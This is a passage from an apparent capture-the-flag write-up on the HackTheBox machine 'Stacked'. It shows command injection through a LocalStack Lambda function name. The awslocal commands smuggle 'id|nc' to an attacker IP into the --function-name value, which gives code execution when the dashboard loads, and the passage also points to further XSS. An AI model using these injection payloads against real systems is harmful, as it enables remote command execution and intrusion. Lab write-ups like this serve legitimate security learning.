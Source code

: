 Request made in burp:

![Screenshot from 2022-03-21 23-38-58](https://user-images.githubusercontent.com/79413473/159336917-ae756cf2-6889-4e6e-a4a7-9a9aba6bf31e.png)

Also you must have spotted what functionName was it is name we provide **--function-name** flag. That means we can inject commands now. But let's first invoke our function

```
awslocal lambda invoke --function-name test-function response.json
```

![Screenshot from 2022-03-21 23-43-03](https://user-images.githubusercontent.com/79413473/159337551-8da93ab0-79fa-47be-840b-c085766e5b4e.png)

I got some handler error obviosly my script didn't execute. Let's test command injection now

```
awslocal lambda create-function --function-name "test;id|nc 10.10.16.13 8088" --zip-file fileb://function.zip --runtime python3.9 --role arn:aws:iam::123456789012:role/lambda-ex
```
![Screenshot from 2022-03-21 23-44-57](https://user-images.githubusercontent.com/79413473/159337857-d53a0338-ad01-416b-ad5f-f2906e3c71e9.png)

But i got no connection back. Let's invoke this maybe then
```
awslocal lambda invoke --function-name "test;id|nc 10.10.16.13 8088" response.json
```
Nope, let check dashboard here we can see all our function created

![Screenshot from 2022-03-21 23-47-52](https://user-images.githubusercontent.com/79413473/159338332-f4ac3780-3309-447e-9d34-288350e2cfd1.png)

and as soon as dashboard loads completely we get a hit.

![Screenshot from 2022-03-21 23-48-33](https://user-images.githubusercontent.com/79413473/159338411-bf6e6879-479c-4668-854b-f982498b613f.png)

Which means if we can create a lambda function on stacked machine and load that dasboard we can get a shell back as localstack user, which will be inside a container as localstack itself is running inside container.

### Little Edit:
I figured out what was causing my python script to not run inside container by looking at this error in container log
 
![Screenshot from 2022-03-21 23-58-38](https://user-images.githubusercontent.com/79413473/159342097-93640802-8fb9-46ae-86ab-0d6cf3068402.png)

container didn't have python3.9 so i redeployed with python3.8 runtime. And it resolved but only to get a new error which is something related to i guess correct format to write python script in Lambda.
```
{"errorType":"Runtime.ImportModuleError","errorMessage":"Unable to import module 'handler': No module named 'handler'"}.:
```
Anyway move on. Now we have to get back to XSS 

### Finding another vhost

Let's read that first email now on **mail.stacked.htb** using xss.
